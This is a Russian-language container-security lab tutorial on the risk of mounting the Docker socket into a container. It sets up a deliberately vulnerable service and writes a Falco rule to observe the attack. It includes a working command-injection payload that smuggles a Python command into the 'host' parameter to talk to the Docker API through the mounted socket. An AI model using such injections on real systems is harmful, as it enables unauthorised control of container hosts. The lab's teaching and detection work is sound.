




# Практика 3. Доступ к Docker Engine через Unix-сокет

В первых двух практиках мы проверяли файловую границу контейнера. Сначала приложение выполняло произвольную команду из HTTP-параметра, затем эта возможность использовалась для чтения и изменения каталога хоста, подключённого через bind mount. Теперь рассмотрим другой класс ошибки, когда контейнер получает не файл с данными, а интерфейс управления самим Docker Engine.

Для разнообразия подготовим не один, а два сервиса с небольшими веб-интерфейсами. Первый - уязвимый `Container Control Center`, через который мы получаем первоначальный доступ. Второй - безопасный `Target Service`, состояние которого можно наблюдать отдельно и на котором будет заметен импакт.

В этой практике мы не будем исправлять код сервисов. Нам важно разделить две причины: `Control Center` уже содержит намеренную командную инъекцию, а подключение Docker-сокета добавляет к нему управляющий доступ к демону. `Target Service` не содержит уязвимости и нужен для наблюдения последствий: после обращения к Docker API мы сможем остановить его, проверить исчезновение страницы и затем вернуть контейнер в исходное состояние. Сначала докажем сам факт обращения к сокету и получим телеметрию Falco. После проверки фактических полей события продолжим практику отдельным фрагментом.

## Что исследуем

Docker CLI обычно обращается к локальному демону через `/var/run/docker.sock`. Это не обычный файл с конфигурацией: запись и чтение из него являются HTTP-обменом с Docker Engine. Процесс, которому разрешено открыть сокет и отправить запрос, может обращаться к API демона так же, как локальный администратор.

Проблема возникает, когда разработчик подключает Docker-сокет в контейнер «для удобства», например чтобы приложение могло запускать вспомогательные контейнеры или читать состояние сервиса. Доступ к сокету нужно рассматривать как доступ к управляющей плоскости Docker, а не как безобидный bind mount. Docker Engine в обычной rootful-конфигурации работает с полномочиями `root`, поэтому API может создавать контейнеры с другими пользователями, подключать новые ресурсы и менять состояние всего узла.

Причина этой ошибки описывается [CWE-668 «Exposure of Resource to Wrong Sphere»](https://cwe.mitre.org/data/definitions/668.html): управляющий ресурс доступен компоненту, которому он не предназначен. Это не отдельная уязвимость версии Docker и не CVE. Результат определяется конфигурацией запуска и доверительной моделью приложения.

В терминах MITRE ATT&CK первая операция относится к [T1609 «Container Administration Command»](https://attack.mitre.org/techniques/T1609/): процесс внутри контейнера отправляет команду службе контейнеров. Создание контролируемого соседнего контейнера будет относиться к [T1610 «Deploy Container»](https://attack.mitre.org/techniques/T1610/). Технику [T1611 «Escape to Host»](https://attack.mitre.org/techniques/T1611/) укажем только после того, как действительно докажем доступ к ресурсу хоста, а не по одному факту подключения сокета.

Логическая цепочка запроса выглядит так:


Последние блоки не являются частью обычного запроса. При штатной проверке приложение запускает только `ping`. При командной инъекции атакующий добавляет программу, которая открывает Unix-сокет и отправляет ему HTTP-запрос. Docker Engine после этого может вернуть метаданные `lab-docker-target`, остановить его или создать новый экземпляр. Именно подключение к сокету и изменение состояния второго контейнера мы будем искать в событиях ядра и в интерфейсе `Target Service`.

## Архивы лабораторных образов

Для практики нужны два отдельных образа. Первый - `container-security-lab/control-center:1.0-vulnerable`, уязвимый сервис с интерфейсом и подключённым Docker-сокетом. Второй - `container-security-lab/control-target:1.0`, обычный целевой сервис без сокета и без командной инъекции. Разделение образов позволяет отличить первоначальный доступ от импакта на соседний контейнер.

Загрузим оба архива в каталог сценария:

~~~bash
mkdir -p ~/container-security-lab/scenarios/03-docker-socket
cd ~/container-security-lab/scenarios/03-docker-socket

curl --fail --location --remote-name 'https://raw.githubusercontent.com/Scrocisss/Statiya-bezop_kont/main/scenarios/practice-03-docker-socket_1.0_linux-amd64/practice-03-docker-socket-control-center_1.0_linux-amd64.tar.gz'
curl --fail --location --remote-name 'https://raw.githubusercontent.com/Scrocisss/Statiya-bezop_kont/main/scenarios/practice-03-docker-socket_1.0_linux-amd64/practice-03-docker-socket-control-center_1.0_linux-amd64.tar.gz.sha256'
curl --fail --location --remote-name 'https://raw.githubusercontent.com/Scrocisss/Statiya-bezop_kont/main/scenarios/practice-03-docker-socket_1.0_linux-amd64/practice-03-docker-socket-target_1.0_linux-amd64.tar.gz'
curl --fail --location --remote-name 'https://raw.githubusercontent.com/Scrocisss/Statiya-bezop_kont/main/scenarios/practice-03-docker-socket_1.0_linux-amd64/practice-03-docker-socket-target_1.0_linux-amd64.tar.gz.sha256'
~~~

Архивы собраны из проверенных образов и опубликованы в каталоге сценария. Проверим каждый файл отдельно:

~~~bash
sha256sum --check practice-03-docker-socket-control-center_1.0_linux-amd64.tar.gz.sha256
sha256sum --check practice-03-docker-socket-target_1.0_linux-amd64.tar.gz.sha256
~~~

Ожидаемый вывод:

~~~text
practice-03-docker-socket-control-center_1.0_linux-amd64.tar.gz: OK
practice-03-docker-socket-target_1.0_linux-amd64.tar.gz: OK
~~~

Загрузим их в локальное хранилище Docker:

~~~bash
sudo docker image load --input practice-03-docker-socket-control-center_1.0_linux-amd64.tar.gz
sudo docker image load --input practice-03-docker-socket-target_1.0_linux-amd64.tar.gz
~~~

Проверим оба тега и пользователей по умолчанию:

~~~bash
sudo docker image inspect container-security-lab/control-center:1.0-vulnerable --format 'id={{.Id}} arch={{.Architecture}} user={{.Config.User}} size={{.Size}}'
sudo docker image inspect container-security-lab/control-target:1.0 --format 'id={{.Id}} arch={{.Architecture}} user={{.Config.User}} size={{.Size}}'
~~~

<details>
<summary>Развернуть вывод команды</summary>

  ```bash
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo docker image inspect container-security-lab/control-center:1.0-vulnerable --format 'id={{.Id}} arch={{.Architecture}} user={{.Config.User}} size={{.Size}}'
id=sha256:34bc4ef95a0cb7e02a9bece28481a4a424301ef6db5208a7b1eefe7ece5e820b arch=amd64 user=10001:10001 size=100056198
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo docker image inspect container-security-lab/control-target:1.0 --format 'id={{.Id}} arch={{.Architecture}} user={{.Config.User}} size={{.Size}}'
id=sha256:ec94e49e547aeea94624c88a631bcda34f9354e64afbcf583e71cc303355bf1e arch=amd64 user=10002:10002 size=100048428
```

</details>

Для `Control Center` ожидаем пользователя `10001:10001`, для `Target Service` - `10002:10002`.

## Проверка Docker Engine перед запуском

Сначала проверим условия на лабораторной виртуальной машине. В этой практике предполагается обычный rootful Docker Engine, управляемый службой `docker.service`.

~~~bash
stat -c 'mode=%A uid=%u gid=%g owner=%U:%G path=%n' /var/run/docker.sock
sudo docker info --format 'server={{.ServerVersion}} security={{json .SecurityOptions}}'
~~~

<details>
<summary>Развернуть вывод команды</summary>

  ```bash
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ stat -c 'mode=%A uid=%u gid=%g owner=%U:%G path=%n' /var/run/docker.sock
mode=srw-rw---- uid=0 gid=988 owner=root:docker path=/var/run/docker.sock
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo docker info --format 'server={{.ServerVersion}} security={{json .SecurityOptions}}'
server=29.9.1 security=["name=apparmor,profile=default","name=seccomp,profile=builtin","name=cgroupns"]
```

</details>

Сокет обычно имеет режим `srw-rw----`, владельца `root` и группу `docker`. 

## Контролируемый ресурс хоста

Будущий API-тест должен доказать возможность управлять Docker, но не должен без необходимости читать настоящую корневую файловую систему лабораторной машины. Поэтому заранее создадим отдельный каталог с маркером. Если позже API создаст вспомогательный контейнер, ему будет разрешено подключить только этот каталог как `/host`.

~~~bash
sudo install -d -o root -g root -m 0755 /srv/container-security-lab/practice-03

printf 'owner=host\nclassification=lab-only\n' | sudo tee /srv/container-security-lab/practice-03/host-secret.txt >/dev/null

sudo chown root:root /srv/container-security-lab/practice-03/host-secret.txt
sudo chmod 0600 /srv/container-security-lab/practice-03/host-secret.txt

sudo stat --format='inode=%i owner=%U(%u) mode=%A(%a) size=%s' /srv/container-security-lab/practice-03/host-secret.txt
~~~

<details>
<summary>Развернуть вывод команды</summary>

  ```bash
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo stat --format='inode=%i owner=%U(%u) mode=%A(%a) size=%s' /srv/container-security-lab/practice-03/host-secret.txt
inode=1441799 owner=root(0) mode=-rw-------(600) size=35
```

</details>

Каталог и файл принадлежат `root`, а сам процесс приложения будет работать от UID 10001. Если созданный через Docker API контейнер сможет прочитать маркер, доступ будет получен не за счёт UID приложения, а за счёт полномочий Docker Engine, который создал новый контейнер с другими настройками.

Мы сознательно не подключаем к тестовому контейнеру `/` и не пытаемся читать секреты реальной системы. Возможность запросить такой mount является частью объяснения риска, но лабораторное доказательство ограничиваем отдельным каталогом.

## Конфигурация контейнера

Создадим файл Compose в каталоге практики:

~~~bash
cd ~/container-security-lab/scenarios/03-docker-socket
printf 'DOCKER_SOCKET_GID=%s\n' "$(stat -c '%g' /var/run/docker.sock)" > .env
vim compose.yaml
~~~

В файл поместим следующую конфигурацию:

~~~yaml
name: container-security-docker-socket
services:
  control-center:
    image: container-security-lab/control-center:1.0-vulnerable
    pull_policy: never
    container_name: lab-docker-socket
    init: true
    user: "10001:10001"
    group_add:
      - "${DOCKER_SOCKET_GID:?Create .env with Docker socket GID first}"
    ports:
      - "0.0.0.0:8080:8080"
    read_only: true
    volumes:
      - type: bind
        source: /var/run/docker.sock
        target: /var/run/docker.sock
        read_only: false
        bind:
          propagation: rprivate
    tmpfs:
      - /tmp:rw,noexec,nosuid,nodev,size=16m
    cap_drop:
      - ALL
    security_opt:
      - no-new-privileges:true
    pids_limit: 64
    mem_limit: 128m
    cpus: 0.50
    healthcheck:
      test:
        - CMD
        - python
        - -c
        - "import urllib.request; response=urllib.request.urlopen('http://127.0.0.1:8080/health', timeout=5); response.read();
        response.close()"
      interval: 10s
      timeout: 15s
      retries: 10
      start_period: 20s
    logging:
      driver: json-file
      options:
        max-size: 10m
        max-file: "2"
    networks:
      - docker-socket-lab
  target-service:
    image: container-security-lab/control-target:1.0
    pull_policy: never
    container_name: lab-docker-target
    init: true
    user: "10002:10002"
    ports:
      - "0.0.0.0:8090:8090"
    read_only: true
    tmpfs:
      - /tmp:rw,noexec,nosuid,nodev,size=16m
    cap_drop:
      - ALL
    security_opt:
      - no-new-privileges:true
    pids_limit: 32
    mem_limit: 64m
    cpus: 0.25
    healthcheck:
      test:
        - CMD
        - python
        - -c
        - "import urllib.request; response=urllib.request.urlopen('http://127.0.0.1:8090/health', timeout=5); response.read();
        response.close()"
      interval: 10s
      timeout: 15s
      retries: 10
      start_period: 20s
    logging:
      driver: json-file
      options:
        max-size: 5m
        max-file: "2"
    networks:
      - docker-socket-lab
networks:
  docker-socket-lab:
    name: container-security-docker-socket
~~~

Публикация `0.0.0.0:8080:8080` нужна только для доступа к панели управления с физического компьютера. Порт `8090` публикует страницу целевого контейнера, чтобы изменение его состояния было видно независимо от журналов.

Сервис `target-service` не получает Docker-сокет и не участвует в командной инъекции. Для него заданы собственные ограничения: UID 10002, только для чтения корневая файловая система, отдельный лимит памяти и отдельная health-проверка. Оба контейнера находятся в одной пользовательской сети `docker-socket-lab`, но доступ к Docker API есть только у `control-center` через смонтированный Unix-сокет.

До атаки откроем страницу целевого сервиса по адресу `http://<адрес_виртуальной_машины>:8090/`. На ней должна быть зелёная карточка `RUNNING`. Позже запрос к Docker API остановит контейнер `lab-docker-target`, и та же страница перестанет отвечать. Это даёт независимый от Falco признак воздействия на соседний контейнер.

Параметр `volumes` подключает именно Unix-сокет Docker. Поле `read_only: false` указано явно: протокол Docker Engine требует двустороннего обмена, поэтому режим только для чтения не превращает сокет в безопасный файл. Это не означает, что приложение получает доступ к обычной файловой системе хоста; оно получает возможность отправлять запросы процессу `dockerd`.

`group_add` добавляет процессу числовую дополнительную группу, которой принадлежит сокет. Это не Linux capability и не переход в UID 0. Тем не менее при типичном режиме `srw-rw---- root:docker` без этой группы процесс не сможет открыть сокет. После открытия авторизация фактически переходит к Docker Engine, а не к ограниченному пользователю внутри контейнера.

Ограничения `read_only`, `cap_drop`, `no-new-privileges`, `pids_limit`, `mem_limit` и `cpus` уменьшают побочные последствия обычного процесса, но не отменяют уже выданное подключение к управляющему сокету.

## Запуск панели

Запустим сервис и дождёмся healthcheck

~~~bash
sudo docker compose up --detach --wait
sudo docker compose ps
~~~

<details>
<summary>Развернуть вывод команды</summary>

  ```bash
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo docker compose ps
NAME                IMAGE                                                  COMMAND                SERVICE          CREATED         STATUS                   PORTS
lab-docker-socket   container-security-lab/control-center:1.0-vulnerable   "python /app/app.py"   control-center   4 minutes ago   Up 4 minutes (healthy)   0.0.0.0:8080->8080/tcp
lab-docker-target   container-security-lab/control-target:1.0              "python /app/app.py"   target-service   4 minutes ago   Up 4 minutes (healthy)   0.0.0.0:8090->8090/tcp
```

</details>

В списке должны появиться два контейнера: `lab-docker-socket` со статусом `Up ... (healthy)` и публикацией `0.0.0.0:8080->8080/tcp`, а также `lab-docker-target` со статусом `Up ... (healthy)` и публикацией `0.0.0.0:8090->8090/tcp`.

Откроем панель с основной ОС по адресу `http://<адрес_виртуальной_машины>:8080/`. Должна появиться страница `Container Control Center` с карточками состояния сервиса и предупреждением о лабораторном Docker-сокете.



Отдельно откроем `http://<адрес_виртуальной_машины>:8090/`. На странице `Target Service` должна отображаться зелёная карточка `RUNNING`. Этот URL понадобится после первого обращения к Docker API, остановка `lab-docker-target` должна сделать его недоступным.



Теперь проверим, что сокет действительно попал внутрь контейнера и что процесс получил ожидающую дополнительную группу:

~~~bash
sudo docker exec lab-docker-socket id
sudo docker exec lab-docker-socket  stat -c 'mode=%A uid=%u gid=%g type=%F' /var/run/docker.sock
sudo docker inspect lab-docker-socket --format '{{json .Mounts}}' | jq
sudo docker exec lab-docker-target id
sudo docker inspect lab-docker-target --format '{{json .Mounts}}' | jq
~~~

<details>
<summary>Развернуть вывод команды</summary>

  ```bash
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo docker exec lab-docker-socket id
uid=10001(lab) gid=10001(lab) groups=988,10001(lab)
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo docker exec lab-docker-socket  stat -c 'mode=%A uid=%u gid=%g type=%F' /var/run/docker.sock
mode=srw-rw---- uid=0 gid=988 type=socket
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo docker inspect lab-docker-socket --format '{{json .Mounts}}' | jq
[
  {
    "Type": "bind",
    "Source": "/var/run/docker.sock",
    "Destination": "/var/run/docker.sock",
    "Mode": "",
    "RW": true,
    "Propagation": "rprivate"
  }
]
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo docker exec lab-docker-target id
uid=10002(target) gid=10002(target) groups=10002(target)
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo docker inspect lab-docker-target --format '{{json .Mounts}}' | jq
[]
```

</details>

В выводе для `lab-docker-socket` должен присутствовать UID 10001 и числовая группа, совпадающая с `DOCKER_SOCKET_GID`. `stat` должен показать тип `socket`, а `docker inspect` - mount с источником и назначением `/var/run/docker.sock` и признаком `RW: true`. Для `lab-docker-target` не должно быть mount Docker-сокета, а UID должен быть 10002. Эти проверки подтверждают конфигурацию, но ещё не доказывают, что приложение обращалось к Docker API.

## Штатная проверка интерфейса

Сначала выполним штатный запрос через форму панели или напрямую:

~~~bash
curl --fail --silent --show-error --get --data-urlencode 'host=127.0.0.1' 'http://127.0.0.1:8080/api/ping' | jq
~~~

<details>
<summary>Развернуть вывод команды</summary>

  ```bash
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ curl --fail --silent --show-error --get --data-urlencode 'host=127.0.0.1' 'http://127.0.0.1:8080/api/ping' | jq
{
  "variant": "docker-socket-vulnerable",
  "input": "127.0.0.1",
  "command": "/bin/ping -c 1 -W 1 127.0.0.1",
  "returncode": 0,
  "stdout": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.167 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.167/0.167/0.167 ms\n",
  "stderr": ""
}
```

</details>

В ответе должны быть команда `ping`, код возврата и её вывод. На этом шаге Docker-сокет не используется, приложение запускает только `/bin/sh` и `/bin/ping`. Это будет отрицательным тестом для будущего правила подключения к Unix-сокету.

Не будем сразу создавать контейнер через API. Сначала отправим безопасный запрос `/_ping`, который Docker Engine использует для проверки доступности. Он возвращает короткий ответ `OK` и не изменяет состояние Docker. Для этого воспользуемся уже имеющейся командной инъекцией и стандартным модулем `socket` Python.

Раскодированный фрагмент, который должен выполнить процесс внутри контейнера, выглядит так:

~~~text
127.0.0.1; python -c 'import socket; s=socket.socket(socket.AF_UNIX); s.connect("/var/run/docker.sock"); s.sendall(b"GET /_ping HTTP/1.0\r\nHost: docker\r\nConnection: close\r\n\r\n"); print(s.recv(1024).decode())'
~~~

В браузере специальные символы URL необходимо кодировать. Надёжнее передать значение через `curl --get --data-urlencode`, чтобы оболочка текущего терминала не изменила кавычки, пробелы и переводы строк:

~~~bash
curl --fail --silent --show-error --get --data-urlencode 'host=127.0.0.1; python -c '\''import socket; s=socket.socket(socket.AF_UNIX); s.connect("/var/run/docker.sock"); s.sendall(b"GET /_ping HTTP/1.0\r\nHost:docker\r\nConnection: close\r\n\r\n"); print(s.recv(1024).decode())'\''' 'http://127.0.0.1:8080/api/ping' | jq
~~~

<details>
<summary>Развернуть вывод команды</summary>

  ```bash
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ curl --fail --silent --show-error --get --data-urlencode 'host=127.0.0.1; python -c '\''import socket; s=socket.socket(socket.AF_UNIX); s.connect("/var/run/docker.sock"); s.sendall(b"GET /_ping HTTP/1.0\r\nHost:docker\r\nConnection: close\r\n\r\n"); print(s.recv(1024).decode())'\''' 'http://127.0.0.1:8080/api/ping' | jq
{
  "variant": "docker-socket-vulnerable",
  "input": "127.0.0.1; python -c 'import socket; s=socket.socket(socket.AF_UNIX); s.connect(\"/var/run/docker.sock\"); s.sendall(b\"GET /_ping HTTP/1.0\\r\\nHost:docker\\r\\nConnection: close\\r\\n\\r\\n\"); print(s.recv(1024).decode())'",
  "command": "/bin/ping -c 1 -W 1 127.0.0.1; python -c 'import socket; s=socket.socket(socket.AF_UNIX); s.connect(\"/var/run/docker.sock\"); s.sendall(b\"GET /_ping HTTP/1.0\\r\\nHost:docker\\r\\nConnection: close\\r\\n\\r\\n\"); print(s.recv(1024).decode())'",
  "returncode": 0,
  "stdout": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.216 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.216/0.216/0.216 ms\nHTTP/1.0 200 OK\nApi-Version: 1.56\nBuilder-Version: 2\nCache-Control: no-cache, no-store, must-revalidate\nDocker-Experimental: false\nOstype: linux\nPragma: no-cache\nServer: Docker/29.9.1 (linux)\nSwarm: inactive\nDate: Sun, 18 Oct 2026 16:31:16 GMT\nContent-Length: 2\nContent-Type: text/plain; charset=utf-8\n\nOK\n",
  "stderr": ""
}
```

</details>

В ответе приложения ожидается текст HTTP-ответа Docker, содержащий строку `OK`. Сам JSON приложения может дополнительно содержать диагностический вывод `ping` и служебные заголовки, поэтому искать нужно именно фрагмент ответа Docker.

В образе установлен предел длины параметра `host` - 256 символов. Запрос `/_ping` вместе с Python-кодом в него помещается. Для более длинных API-методов нельзя просто дописать все HTTP-заголовки в тот же параметр, строка будет обрезана приложением. В следующем фрагменте для остановки целевого контейнера используем короткий запрос и собираем CRLF через `bytes([13,10])`; это сохраняет эксперимент воспроизводимым и не зависит от того, как оболочка обработает управляющие символы.

## Временное правило Falco

Стандартное правило Falco может не выделять именно подключение приложения к Docker-сокету, особенно если оно видит только общий системный вызов `connect`. Поэтому сначала создадим узкое правило наблюдения. Оно не объявляет эксплуатацию доказанной и не пытается определить, какой API-метод будет вызван дальше. Его задача - сохранить факт успешного подключения, процесс и имя Unix-сокета.

Создадим файл:

~~~bash
sudo vim /etc/falco/rules.d/03-docker-socket-observe.yaml
~~~

Содержимое:

~~~yaml
- rule: Laboratory container connected to Docker Unix socket
  desc: >
    Records Unix-domain socket connections from the deliberately vulnerable
    laboratory control-center container. This is an observation rule.
  condition: >
    evt.type = connect
    and evt.dir = <
    and container.id != host
    and container.name = "lab-docker-socket"
    and fd.typechar = 'u'
  output: >
    Laboratory container connected to Unix socket |
    evt_type=%evt.type result=%evt.res
    fd_name=%fd.name fd_type=%fd.typechar
    process=%proc.name proc_exepath=%proc.exepath
    parent=%proc.pname grandparent=%proc.aname[2]
    command=%proc.cmdline user=%user.name user_uid=%user.uid
    container_id=%container.id container_name=%container.name
  priority: NOTICE
  tags:
    - container
    - docker_socket
    - unix_socket
    - lab_observation
    - mitre_execution
    - T1609
~~~

Условие ограничивает событие контейнером практики и Unix-доменом, но пока не фильтрует имя файла сокета. Это сделано намеренно: сначала нужно увидеть, какие значения `fd.name` и `fd.typechar` выдаёт Falco с конкретным драйвером и версией ядра. После получения фактического события можно будет решить, достаточно ли пути `/var/run/docker.sock` или нужно учитывать вариант, в котором Falco сообщает имя через файловый дескриптор.

Проверим конфигурацию и перезапустим Falco:

~~~bash
sudo falco --dry-run
echo $?
sudo systemctl restart falco-modern-bpf.service
sudo systemctl --no-pager --full status falco-modern-bpf.service
~~~

Команда `falco --dry-run` должна завершиться кодом `0`, а служба — перейти в состояние `active (running)`. Если Falco сообщает об неизвестном поле или ошибке синтаксиса, перезапускать службу повторно не нужно: пришлите полный текст ошибки, потому что доступные поля зависят от версии Falco и подключённых event sources.

## Первое наблюдение подключения

После перезапуска повторим штатный запрос и запрос `_ping`, как показано выше. Затем выведем срабатывания временного правила:

```
curl --fail --silent --show-error --get --data-urlencode 'host=127.0.0.1' 'http://127.0.0.1:8080/api/ping' | jq
curl --fail --silent --show-error --get --data-urlencode 'host=127.0.0.1; python -c '\''import socket; s=socket.socket(socket.AF_UNIX); s.connect("/var/run/docker.sock"); s.sendall(b"GET /_ping HTTP/1.0\r\nHost:docker\r\nConnection: close\r\n\r\n"); print(s.recv(1024).decode())'\''' 'http://127.0.0.1:8080/api/ping' | jq
```

~~~bash
sudo journalctl \
  -u falco-modern-bpf.service \
  --output=cat \
  --no-pager | \
  jq --raw-input --raw-output '
    fromjson?
    | select(.rule == "Laboratory container connected to Docker Unix socket")
    | [
        .time,
        .output_fields["evt.type"],
        .output_fields["evt.res"],
        .output_fields["fd.name"],
        .output_fields["fd.type"],
        .output_fields["proc.name"],
        .output_fields["proc.pname"],
        .output_fields["proc.cmdline"],
        .output_fields["user.uid"],
        .output_fields["container.name"]
      ]
    | @tsv
  '
~~~

<details>
<summary>Развернуть вывод команды</summary>

  ```bash
2026-10-18T16:35:52.253168627Z  connect SUCCESS ffff8aa406891800->ffff8aa406890c00 /run/docker.sock             python  python  python -c import socket; s=socket.socket(socket.AF_UNIX); s.connect("/var/run/docker.sock"); s.sendall(b"GET /_ping HTTP/1.0\\r\\nHost:docker\\r\\nConnection: close\\r\\n\\r\\n"); print(s.recv(1024).decode())        10001   lab-docker-socket
```

</details>

Ожидаем, что штатный `ping` не создаст запись о подключении к Unix-сокету, а второй запрос даст как минимум одну строку с контейнером `lab-docker-socket`. Однако точные значения имени файла, типа дескриптора, имени процесса и родителя нельзя подставлять заранее: они зависят от того, какой процесс успел вызвать `connect`, как Falco разрешил путь и как оболочка BusyBox выполнила Python-команду.

## Что показало первое событие

Временное правило сработало только после запроса, который действительно открыл Docker Unix-сокет. Штатный вызов `/api/ping?host=127.0.0.1` запускает `ping`, но не вызывает `connect` для Unix-дескриптора, поэтому в результатах он отсутствует.

Полученная строка содержит несколько важных признаков:

~~~text
evt_type:      connect
result:        SUCCESS
fd.typechar:   u
fd.name:       ffff8aa406891800->ffff8aa406890c00
process:       python
parent:        python
user_uid:      10001
container:     lab-docker-socket
~~~

`evt.type=connect` означает успешный системный вызов подключения. Значение `SUCCESS` показывает, что операция завершилась успешно, а не только была предпринята. Поле `fd.typechar=u` указывает на Unix-доменный сокет. Процесс выполнялся от UID 10001 внутри `lab-docker-socket`, то есть запрос исходил из уязвимого контейнера, а не из административной сессии хоста.

Имя `fd.name` в этом событии не содержит строки `/var/run/docker.sock`. Современный драйвер Falco получил соединение уже на уровне дескрипторов и представил пару адресов как `ffff8aa406891800->ffff8aa406890c00`. Это не ошибка правила и не доказательство того, что был открыт другой сокет. Такой формат означает, что для события `connect` конкретная версия драйвера не смогла восстановить исходный путь Unix-файла.

